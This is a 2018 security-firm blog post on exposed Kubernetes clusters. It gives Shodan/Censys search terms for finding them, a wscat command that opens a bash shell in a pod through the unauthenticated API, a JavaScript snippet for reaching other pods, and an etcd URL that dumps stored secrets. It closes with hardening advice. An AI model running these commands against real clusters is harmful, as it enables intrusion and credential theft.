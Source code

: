```yaml
---
layout: post
title:  "Kubernetes or KuberPwn"
date:   2018-03-13 13:49:33 +0000
tags: [SSL, pentest, redteam, blueteam]
---
```

![](/assets/kubernetes.png)

Ever since that news story about Telsa’s cloud infrastructure being compromised and a bitcoin miner loaded on their Kubernetes estate. Netscylla was intrigued on how easy this could happen to any of our customers cloud estates. So we decided to do some OSINT (Open Source reconnaissance) and our own research.

Bug Hunting for Kubernetes
We can utilise Shodan and Censys to discover how many Kubernetes platforms are connected to the public Internet. After an initial 15,000+ results from our queries in January, after the news of the compromise we have seen these numbers drop to 12,597; So it looks like developer/administrators are now applying security controls to their accounts.

Locating Vulnerable Management Interfaces
Finding open management interfaces is as easy as querying Shodan/Censys for:
* KubernetesDashboard
* Kubernetes-master
* Kubernetes
* Kube

## The Common Vulnerabilities

### Unsecured Dashboards
* Port 10250/TCP Open
* Port 2379/TCP Open
* Unsecured dashboards
Are the graphical management interfaces which are the easiest to compromise, just click around the interface looking for storage links; You may be lucky enough to spot some credentials for an S3 bucket?

![](/assets/kubernetes_2.png)

### 10250/TCP Management Port
The HTTPS service on 10250/TCP is the default management API interface for Kubernetes clusters. Not secured by default! This means that the developer/administrator is responsible for securing their services.

By abusing the API we can achieve low level command execution as noted previously by Alexander Urcioli and this stack overflow thread: https://stackoverflow.com/questions/44394839/kubernetes-exec-throw-the-websocket-api

In order to follow Alexander’s workflow you need to install wscat, for those not familiar with node the instructions are below:
```
apt-get update 
apt-get install -y npm 
ln -s /usr/bin/nodejs /usr/bin/node 
npm install -g n n stable 
npm install -g wscat
```
Then your free to execute a command structured as:
```
wscat -c "ws://<Kubernetes IP>:<API PORT>/api/v1/namespaces/ \ default/pods/<POD NAME>/exec?container=<DOCKER_NAME>&stdin=1& \ 
stdout=1&stderr=1&tty=1&command=<PAYLOAD_HERE>"
```
Example executed within AWS VPC:
```
wscat -c "ws://172.21.1.11:8080/api/v1/namespaces/default/pods/my-nginx-3855515330-l1uqk/exec?container=my-nginx&stdin=1&stdout=1&stderr=1&tty=1&command=%2Fbin%2Fbash"
```
And if you have already compromised a pod (by some other means), to attack another pod, you could simply use JavaScript:
```
<script type=”text/javascript”> 
angular.module(‘exampleApp’, [‘kubernetesUI’])
  .config(function(kubernetesContainerSocketProvider) {    
     kubernetesContainerSocketProvider.WebSocketFactory =   
      “CustomWebSockets”; }) .run(function($rootScope) 
{ 
$rootScope.baseUrl = “ws://<KUBERNETES IP>:<PORT>”; 
$rootScope.selfLink = “/api/v1/namespaces/default/pods/<POD_NAME>”; 
$rootScope.containerName = “<DOCKER_NAME>”; 
$rootScope.accessToken = “”; 
$rootScope.preventSocket = true; 
}) 
/* Our custom WebSocket factory adapts the url */ 
.factory(“CustomWebSockets”, function($rootScope) 
{ 
return function CustomWebSocket(url, protocols) 
{ 
url = $rootScope.baseUrl + url; 
if ($rootScope.accessToken) url += “&access_token=” + $rootScope.accessToken; 
return new WebSocket(url, protocols); 
}; 
}); 
</script>
```
### 2379/TCP Etcd Port
The HTTP service on 2379/TCP is the default etcd service for your Kubernets instance. The API interface is accessible and not secured by default!
* http://<kuberenets IP>:2379/v2/keys/?recursive=true
It’ll leak internal passwords, AWS keys, certificates, private keys, encryption keys and more…

## Conclusion
So don’t forget to read https://kubernetes.io/docs/admin/authentication and ensure that your management interfaces are not open to the would and would-be bitcoin miners looking for easy profit.

